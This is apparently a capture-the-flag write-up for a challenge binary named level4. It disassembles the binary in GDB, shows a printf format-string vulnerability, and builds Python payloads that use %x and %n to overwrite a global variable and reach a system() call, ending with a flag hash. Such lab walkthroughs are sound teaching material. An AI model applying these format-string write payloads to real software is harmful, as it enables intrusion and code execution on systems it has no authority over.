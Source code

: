 Let's run `GDB`:
``` shell
$ gdb level4 
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:  push   ebp
   0x080484a8 <+1>:  mov    ebp,esp
   0x080484aa <+3>:  and    esp,0xfffffff0
   0x080484ad <+6>:  call   0x8048457 <n>
   0x080484b2 <+11>: leave  
   0x080484b3 <+12>: ret    
End of assembler dump.
(gdb) disas n   
Dump of assembler code for function n:
   0x08048457 <+0>:  push   ebp
   0x08048458 <+1>:  mov    ebp,esp
   0x0804845a <+3>:  sub    esp,0x218
   0x08048460 <+9>:  mov    eax,ds:0x8049804
   0x08048465 <+14>: mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>: mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>: lea    eax,[ebp-0x208]
   0x08048477 <+32>: mov    DWORD PTR [esp],eax
   0x0804847a <+35>: call   0x8048350 <fgets@plt>
   0x0804847f <+40>: lea    eax,[ebp-0x208]
   0x08048485 <+46>: mov    DWORD PTR [esp],eax
   0x08048488 <+49>: call   0x8048444 <p>
   0x0804848d <+54>: mov    eax,ds:0x8049810
   0x08048492 <+59>: cmp    eax,0x1025544
   0x08048497 <+64>: jne    0x80484a5 <n+78>
   0x08048499 <+66>: mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>: call   0x8048360 <system@plt>
   0x080484a5 <+78>: leave  
   0x080484a6 <+79>: ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:  push   ebp
   0x08048445 <+1>:  mov    ebp,esp
   0x08048447 <+3>:  sub    esp,0x18
   0x0804844a <+6>:  mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:  mov    DWORD PTR [esp],eax
   0x08048450 <+12>: call   0x8048340 <printf@plt>
   0x08048455 <+17>: leave  
   0x08048456 <+18>: ret    
End of assembler dump.
```

The program reads from `stdin` from to a buffer of size 512:
```
   0x08048460 <+9>:  mov    eax,ds:0x8049804
   0x08048465 <+14>: mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>: mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>: lea    eax,[ebp-0x208]
   0x08048477 <+32>: mov    DWORD PTR [esp],eax
   0x0804847a <+35>: call   0x8048350 <fgets@plt>
```

Then this buffer gets passed to `p` function:
```
   0x0804847f <+40>: lea    eax,[ebp-0x208]
   0x08048485 <+46>: mov    DWORD PTR [esp],eax
   0x08048488 <+49>: call   0x8048444 <p>
```

And this function prints uses this buffer as first argument for `printf`:
```
   0x0804844a <+6>:  mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:  mov    DWORD PTR [esp],eax
   0x08048450 <+12>: call   0x8048340 <printf@plt>
```

After the call to `p` variable at `ds:0x8049810` is evaluated and checked for value `0x1025544`:
```
   0x0804848d <+54>: mov    eax,ds:0x8049810
   0x08048492 <+59>: cmp    eax,0x1025544
```

What we need to do is to somehow modify value at address `0x8049810`.

Because in the function `p` the buffer is passed as a first argument, we can utilize the printf format exploit.
The idea is that we can use printf's feature `%n` to output a number into desired adrress.

Firstly, let's try to pass the address as parameter.
To do this we should create a string that start with the address.
This way printf can access this address because it lies on the stack (because the buffer is on the stack).

Let's use a Python script for generating a string for the exploit:
``` python
import struct

target_address = 0x8049810

out = ''

out += struct.pack('I', target_address)
out += '[%x]' * 20

print(out)
```
``` shell
(gdb) r < /tmp/exploit_payload 
Starting program: /home/user/level4/level4 < /tmp/exploit_payload
[b7ff26b0][bffff754][b7fd0ff4][0][0][bffff718][804848d][bffff510][200][b7fd1ac0][b7ff37d0][8049810][5d78255b][5d78255b][5d78255b][5d78255b][5d78255b][5d78255b][5d78255b][5d78255b]
[Inferior 1 (process 9044) exited normally]
```

As we can see the address is on 12th position.
We can simplify the script:
``` python
import struct

target_address = 0x8049810

out = ''

out += struct.pack('I', target_address)
out += '[%12$x]'

print(out)
```
``` shell
(gdb) r < /tmp/exploit_payload 
Starting program: /home/user/level4/level4 < /tmp/exploit_payload
[8049810]
[Inferior 1 (process 9049) exited normally]
```

Now it time for `%n`.
Let's try to write any value at `0x8049810`:
``` python
import struct

target_address = 0x8049810

out = ''

out += struct.pack('I', target_address)
out += '%12$n'

print(out)
```
``` shell
(gdb) br *0x08048455
(gdb) r < /tmp/exploit_payload 
Starting program: /home/user/level4/level4 < /tmp/exploit_payload
[]

Breakpoint 1, 0x08048455 in p ()
(gdb) x/wx 0x8049810
0x8049810 <m>: 0x00000003
```

This works.
Let's now generate final string.
For this we have to write exactly 16930116 characters.
Let's make printf to pad out parameer with vast of spaces:
``` python
import struct

target_address = 0x8049810

out = ''

out += struct.pack('I', target_address)
out += '%16930112x%12$n'

print(out)
```
``` shell
(gdb) br *0x08048455
(gdb) r < /tmp/exploit_payload 
Starting program: /home/user/level4/level4 < /tmp/exploit_payload
...
(gdb) x/wx 0x8049810
0x8049810 <m>: 0x01025544
```

Finally:
``` shell
$ cat /tmp/exploit_payload | ./level4 
... 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
